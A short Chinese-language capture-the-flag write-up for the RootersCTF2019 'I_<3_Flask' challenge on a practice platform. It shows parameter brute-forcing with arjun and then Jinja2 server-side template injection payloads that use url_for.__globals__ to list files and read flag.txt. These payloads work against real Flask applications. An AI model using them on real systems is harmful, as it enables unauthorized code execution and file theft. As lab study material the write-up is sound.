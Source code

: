 # [RootersCTF2019]I_<3_Flask
![](<./img/Pasted image 20230118100150.png>)

---

![](<./img/Pasted image 20230118100135.png>)

突出一个爆破.jpg

除了题目提示`flask`之外就没有其他信息了

尝试`dirsearch`目录爆破无果，发现一个爆破`query`的工具`arjun`

```shell
arjun -u http://xxx.node4.buuoj.cn:81/ -c 100 -d 0.1
```

![](<./img/Pasted image 20230118103413.png>)

```
/?name=1
```

![](<./img/Pasted image 20230118103529.png>)

```
/?name={{7*7}}
```

![](<./img/Pasted image 20230118103559.png>)

利用`url_for`函数注入

```
/?name={{url_for.__globals__['__builtins__']['__import__']('os').listdir('.')}}
```

```python
['flag.txt', 'application.py', 'requirements.txt', 'static', 'templates']
```

```
/?name={{url_for.__globals__['__builtins__']['open']('flag.txt').read()}}
```

![](<./img/Pasted image 20230118104246.png>)
